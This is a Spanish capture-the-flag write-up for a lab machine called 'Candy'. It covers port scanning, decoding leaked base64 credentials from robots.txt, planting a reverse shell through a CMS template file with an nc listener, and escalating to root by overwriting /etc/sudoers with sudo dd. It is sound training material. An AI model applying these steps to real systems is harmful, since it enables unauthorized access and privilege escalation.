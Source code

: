 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Candy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Cassiopeia.

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

Como nos pide unas credenciales vamos a revisar el archivo `robots.txt` por si contiene algo relevante.

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>

Vemos unas credenciales pero la contraseña parece ser que está codificada en **base64**.

```bash
echo "c2FubHVpczEyMzQ1" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

Nos encontramos un directorio llamado `/administrator` y entramos en él y nos pide unas credenciales que hemos encontrado anteriormente.

<figure><img src="../../.gitbook/assets/image (799).png" alt=""><figcaption></figcaption></figure>

Nos logueamos y estamos dentro.

<figure><img src="../../.gitbook/assets/image (800).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos a **System** en concreto **Sites Templates** y editamos el archivo `error.php` para hacer una [**Reverse Shell**](https://www.revshells.com/). Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

```bash
find / -user luisillo 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (802).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de ese archivo.

```bash
cat /var/backups/hidden/otro_caramelo.txt
```

<figure><img src="../../.gitbook/assets/image (803).png" alt=""><figcaption></figcaption></figure>

Parecen unas credenciales por lo que intentamos loguearnos.

<figure><img src="../../.gitbook/assets/image (804).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos SUDO con dd por lo que revisamos esta [página](https://gtfobins.github.io/gtfobins/dd/).

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
